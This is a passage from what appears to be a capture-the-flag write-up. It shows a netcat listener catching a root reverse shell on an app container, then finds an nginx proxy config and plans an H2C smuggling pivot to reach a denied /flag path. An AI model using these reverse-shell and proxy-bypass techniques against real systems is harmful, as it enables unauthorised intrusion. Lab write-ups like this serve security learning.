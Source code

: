 On the listener:

```
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
root@app:/app# ls
__pycache__     app.py      instance          shell      templates
all_users.json  backup.txt  requirements.txt  shell.b64
```

---

## Network Pivoting: H2C Smuggling

Inside the shell, we find `backup.txt`:

```
Backup of the nginx conf

curl https://nginx:8888 -k

worker_processes 1;
events { worker_connections 1024; }

http {
    server {
        listen       8888 ssl;
        http2 on;
        server_name  nginx localhost;

        access_log  /var/log/nginx/access.log;
        error_log  /var/log/nginx/error.log;

        ssl_certificate     /etc/ssl/certs/selfsigned.crt;
        ssl_certificate_key /etc/ssl/private/selfsigned.key;

        location / {
            proxy_pass         http://127.0.0.1:80/;
            proxy_http_version 1.1;
            proxy_set_header Upgrade $http_upgrade;
            proxy_set_header Connection $http_connection;
        }
        location /flag {
            deny all;
        }
    }
}
```

This looks like a backup of the nginx configuration of a local server (on the same network as the machine we've taken control of). It seems to be the reverse proxy config. This proxy seems to forward all our requests to the backend server except for `/flag` which is denied by the proxy but probably not by the backend.
